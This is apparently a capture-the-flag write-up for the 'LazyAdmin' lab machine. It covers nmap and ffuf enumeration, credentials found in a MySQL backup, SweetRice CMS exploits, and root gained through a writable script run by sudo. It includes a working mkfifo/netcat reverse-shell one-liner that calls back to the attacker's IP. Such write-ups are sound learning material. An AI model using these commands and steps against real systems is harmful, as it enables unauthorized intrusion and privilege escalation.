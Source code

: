 # LazyAdmin

The first thing that I am going to do is a nmap scan:

```bash
nmap 10.10.243.20       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-01 07:27 EST
Nmap scan report for 10.10.243.20
Host is up (0.073s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 10.41 seconds
```

From there we can see that it has:

- 22(SSH)
- 80(HTTP)

First of all I am going to explore the web page.

We got meeted by the apache2 ubuntu default page, that’s good, because now weknow that it is an ubuntu machine and it’s running Apache2.

Now I am just going to run ffuf for directory enumeration:

```bash
ffuf -u http://10.10.243.20/FUZZ -w /usr/share/wordlists/dirb/big.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.243.20/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 1172ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 4189ms]
content                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 57ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 57ms]
:: Progress: [20469/20469] :: Job [1/1] :: 353 req/sec :: Duration: [0:00:38] :: Errors: 0 ::
```

As we can see we got a content page, let’s see what’s in here.

![Untitled](LazyAdmin%20e500b0ab8a7b40c8a695e2a7bb58621b/Untitled.png)

That’s great, now we know that the web page is using Basic CMS.

For now I am just going to follow the tip that the default web page gave us: “If you are the webmaster,please go to Dashboard -> General -> Website setting”.

but for doing that we first need to login and access the dashboard.

I ran another directory scanner, this time inside content:

```bash
ffuf -u http://10.10.243.20/content/FUZZ -w /usr/share/wordlists/dirb/big.txt

  
      /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.243.20/content/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 1687ms]
_themes                 [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 55ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 2705ms]
as                      [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 57ms]
attachment              [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 58ms]
images                  [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 57ms]
inc                     [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 57ms]
js                      [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 57ms]
:: Progress: [20469/20469] :: Job [1/1] :: 271 req/sec :: Duration: [0:00:45] :: Errors: 0 ::
```

The dashboard is located in /content/as.

But we don’t have the credentials yet. 

I went into inc, and there we can see a mysql backup:

![Untitled](LazyAdmin%20e500b0ab8a7b40c8a695e2a7bb58621b/Untitled%201.png)

Here we can see the hashed password and the login username.

manager:Password123

Now we can see which version is running, after searching on internet I found this script: “https://www.exploit-db.com/exploits/40716”

```bash
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |                                                    
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : 10.10.243.20/content
Enter Username : manager
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : php.php
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.10.243.20/content/attachment/php.php
```

This one didn’t work so I am going to switch to another one that I have found: “https://www.exploit-db.com/exploits/40700”

It bascially tells you to go and add a file in the ads section.

after that we just navigate to the ads directory “http://10.10.243.20/content/inc/ads/” and we have our shell:

```bash
nc -lvnp 4444  

listening on [any] 4444 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.243.20] 35430
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux                                                                                                                                                                    
 15:20:14 up 53 min,  0 users,  load average: 0.00, 0.00, 0.07                                                                                                                                                                                                                   
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Going to the IT guy directory gives us the user flag. 

Now using sudo -l:

```bash
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

We can see that we can use perl and backup.pl with root privileges.

```bash
cat /home/itguy/backup.pl

#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

This basically just execute the `/etc/copy.sh` file

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.20.116 4555 >/tmp/f
```

So I changed the cdoe with my ip and port, then executed with: sudo /usr/bin/perl /home/itguy/backup.pl and got the shell.

```bash
nc -lvnp 4555
listening on [any] 4555 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.243.20] 56612
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```